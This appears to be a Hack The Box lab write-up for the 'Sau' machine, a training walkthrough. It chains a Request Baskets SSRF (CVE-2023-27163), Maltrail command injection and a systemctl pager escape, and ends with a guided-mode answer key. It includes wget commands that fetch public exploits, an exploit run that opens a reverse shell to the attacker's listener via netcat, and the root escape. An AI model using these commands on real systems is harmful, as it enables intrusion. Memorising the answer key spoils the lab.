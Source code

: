 # 🚀 Hack The Box: Sau (Linux, Easy)

**by [a1i3n37x](https://github.com/a1i3n37x) · [Alien37.com](https://www.alien37.com)**

---

## ✨ Intro — Sau 

Sau is all about digging deeper. Nothing on this box is outright broken — you’re just not meant to see it at first.

You’ll learn how to access internal services through a vulnerable proxy, exploit unauthenticated command injection via headers, and finally escalate to root using a sneaky `systemctl` misconfiguration.

This box teaches you to connect the dots between services, and to treat every limited response as a potential opening. SSRF, CVE chaining, and pager escapes — all packed into one smooth ride.

---

## 📡 Reconnaissance — Sau

Initial scan:
```bash
nmap -sC -sV -Pn 10.10.11.224 -oN sau-nmap.txt
```

Results:
```bash
22/tcp     open  ssh
80/tcp     filtered http
55555/tcp  open  http    request-baskets 1.2.1
```

Port 80 is filtered — no direct access.
Port 55555 is hosting **Request Baskets**, version `1.2.1`.

### 🧠 Observations:
- Port 80 is likely open *internally*, but not from the outside
- Request Baskets may be able to access it → time to test for SSRF

---

## 🔍 Scanning & Enumeration — Sau

Navigated to:
```bash
http://10.10.11.224:55555
```

Confirmed the app was **Request Baskets v1.2.1**. Based on CVE research:

> 🛠️ `CVE-2023-27163` — SSRF via basket forwarding functionality

Used a prebuilt exploit:
```bash
wget https://raw.githubusercontent.com/entr0pie/CVE-2023-27163/main/CVE-2023-27163.sh
chmod +x CVE-2023-27163.sh
./CVE-2023-27163.sh http://10.10.11.224:55555 http://127.0.0.1:80
```

This let us proxy requests from the server itself → **bypassing the filter on port 80**.

We accessed:
```bash
http://10.10.11.224:55555/<basket>
```

Which returned a Maltrail web interface.

---

## 💣 Gaining Access — Sau

Maltrail v0.53 is known to be vulnerable to:
> 🧨 **Unauthenticated Command Injection** via `/login` endpoint

Instead of crafting a custom payload, we used a prebuilt Python exploit:

```bash
wget https://raw.githubusercontent.com/spookier/Maltrail-v0.53-Exploit/main/exploit.py
python3 exploit.py <your-ip> 9000 http://10.10.11.224:55555/<basket>
```

Set up a listener:
```bash
nc -lvnp 9000
```

Received a shell as user `puma`.

---

## 🧬 Post-Exploitation — Puma

Checked access:
```bash
sudo -l
```

Output:
```
(ALL : ALL) NOPASSWD: /usr/bin/systemctl status trail.service
```

That command opens `less`. Escaped with:
```bash
!/bin/bash
```

Spawned a root shell. Confirmed with `whoami` → `root`

---

## 🪙 Flag Capture — Sau

- **User flag**: `/home/puma/user.txt`
- **Root flag**: `/root/root.txt`

---

## 🧭 Guided Mode Answers — Sau

<details>
<summary><strong>Target IP Address</strong></summary>
10.10.11.224
</details>

<details>
<summary><strong>Which is the highest open TCP port on the target machine?</strong></summary>
55555
</details>

<details>
<summary><strong>What is the name of the open source software that the application on 55555 is "powered by"?</strong></summary>
Request Baskets
</details>

<details>
<summary><strong>What is the version of request-baskets running on Sau?</strong></summary>
1.2.1
</details>

<details>
<summary><strong>What is the 2023 CVE ID for a Server-Side Request Forgery (SSRF) in this version of request-baskets?</strong></summary>
CVE-2023-27163
</details>

<details>
<summary><strong>What is the name of the software that the application running on port 80 is "powered by"?</strong></summary>
Maltrail
</details>

<details>
<summary><strong>What is the relative path on the webserver targeted by this exploit?</strong></summary>
/login
</details>

<details>
<summary><strong>What system user is the Mailtrail application running as on Sau?</strong></summary>
puma
</details>

<details>
<summary><strong>Submit the flag located in the puma user's home directory.</strong></summary>
<code>&lt;contents of /home/puma/user.txt&gt;</code>
</details>

<details>
<summary><strong>Submit flag difficulty rating</strong></summary>
Easy
</details>

<details>
<summary><strong>What is the full path to the binary (without arguments) the puma user can run as root on Sau?</strong></summary>
/usr/bin/systemctl
</details>

<details>
<summary><strong>What is the full version string for the instance of systemd installed on Sau?</strong></summary>
systemd 245 (245.4-4ubuntu3.13)
</details>

<details>
<summary><strong>What is the 2023 CVE ID for a local privilege escalation vulnerability in this version of systemd?</strong></summary>
CVE-2023-26604
</details>

<details>
<summary><strong>Submit the flag located in the root user's home directory.</strong></summary>
<code>&lt;contents of /root/root.txt&gt;</code>
</details>

---

## 🧠 Lessons Learned — Sau

- Filtered ports can still be reachable from the inside (SSRF target!)
- CVE chaining is powerful: SSRF → Maltrail → Command Injection
- Always run `sudo -l`, even if you think you can’t use sudo
- `less` and `systemctl` are common privilege escalation paths
- A clear exploit chain beats fancy obfuscation every time

---

## 🎓 CEH Summary — Sau

**CEH Domains Covered:**

- **Reconnaissance**: Nmap & service discovery
- **Vulnerability Research**: CVEs for Request Baskets + Maltrail
- **Exploitation**: SSRF + Python exploit for Maltrail injection
- **Privilege Escalation**: Pager escape via `systemctl` + `!/bin/bash`
- **Post-Exploitation**: Enumeration, flag capture, root access

> **“Sometimes, the only thing filtering your access… is your perspective.” 👽**

---

*Written by [a1i3n37x](https://github.com/a1i3n37x) · Hack The Box | [Alien37.com](https://alien37.com)*
